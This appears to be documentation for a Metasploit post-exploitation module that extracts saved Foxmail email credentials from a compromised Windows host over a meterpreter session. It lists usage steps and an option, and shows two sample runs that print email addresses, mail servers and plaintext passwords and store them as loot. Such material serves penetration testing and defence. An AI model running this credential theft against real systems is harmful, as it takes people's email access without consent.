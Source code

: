 ## Verification Steps

  1. Download the latest installer of Foxmail.
  2. Use foxmail to login email server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/foxmail```
  6. If the account file is saved in the system, the email, server, port and plaintext password will be printed.

## Options

 **ACCOUNT_PATH**

  - Specifies the Account directory path for Foxmail

## Scenarios

```
[*] Search account files on C:\Foxmail 7.2\Storage
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email                       Server                   Port  SSL    Password
-----                       ------                   ----  ---    --------
kali-team@qq.com            imap.qq.com              993   true   fjcqkkeqbuweddch
kali-team@qq.com            smtp.qq.com              465   true   fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174103_default_10.0.2.15_host.foxmail_pas_205001.txt
[*] Post module execution completed

```

* Specify ** **ACCOUNT_PATH**

```
msf6 post(windows/gather/credentials/foxmail) > set account_path "C:\Foxmail 7.2\Storage\"
account_path => C:\Foxmail 7.2\Storage\
msf6 post(windows/gather/credentials/foxmail) > run
[*] Search account files on C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email              Server       Port  SSL   Password
-----              ------       ----  ---   --------
kali-team@qq.com   imap.qq.com  993   true  fjcqkkeqbuweddch
kali-team@qq.com   smtp.qq.com  465   true  fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174452_default_10.0.2.15_host.foxmail_pas_487470.txt
[*] Post module execution completed

```